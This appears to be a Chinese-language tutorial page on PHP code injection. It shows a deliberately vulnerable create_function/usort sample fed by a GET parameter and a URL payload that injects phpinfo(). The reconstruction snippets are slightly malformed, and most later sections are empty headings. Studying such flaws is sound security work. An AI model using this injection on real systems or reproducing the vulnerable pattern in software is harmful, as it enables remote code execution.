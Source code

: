 ```yaml
---
title: PHP代码执行
tags:
  - PHP
  - 代码执行
  - 漏洞原理
categories:
  - - 漏洞原理
description: 本文列举了以下常见的PHP代码执行函数
abbrlink: d5b96b72
date: 2025-04-11 10:47:48
---
```


# PHP CODE INJECTION

可以注入PHP代码直接执行的漏洞

一般都是后台使用了eval 函数，将我们的输入直接作为eval函数的参数，从而是的恶意的命令被执行

## create_function

create会创建一个匿名函数，第一个参数是传入的参数，第二个参数是函数体

`create_function(args,code)` 返回回个函数名字符串

如

```php
$newfunc = create_function('$a,$b', 'return "ln($a) + ln($b) = " . log($a * $b);
```

函数的执行过程

```php
function newfunc(){    
	return "ln($a) + ln($b) = " . log($a * $b);
}
```

**案例一：**漏洞代码

```php
<?php
	error_reporting(0);
	$sort_by = $_GET['sort_by'];
	$sorter = 'strnatcasecmp';
	$databases=array('1234','4321');
	$sort_function = ' return 1 * ' . $sorter . '($a["' . $sort_by . '"], $b["' . $sort_by . '"]);';
	usort($databases, create_function('$a, $b', $sort_function));
?>
```

payload

```php
http://localhost/test1.php?sort_by=%27%22]);}phpinfo();/*
```

还原执行过程

```php
$sort_function = ' return 1 * ' . $sorter . '($a["' . $sort_by '"]);}phpinfo();/*
```

匿名函数执行

```php
function niming($a,$b){
	return 1 * ' . $sorter . '($a["' . $sort_by '"]);}phpinfo();/*	
}
```

## call_user_func

`call_user_func(yourfunc,yourargs)` //将参数传入函数，可传多个

## call_user_func_array

`call_user_func_array(yourfunc,yourargsarray)` //将索引数组的元素作为函数的参数

## assert

## eval

## system

array_map

array_filter

array_walk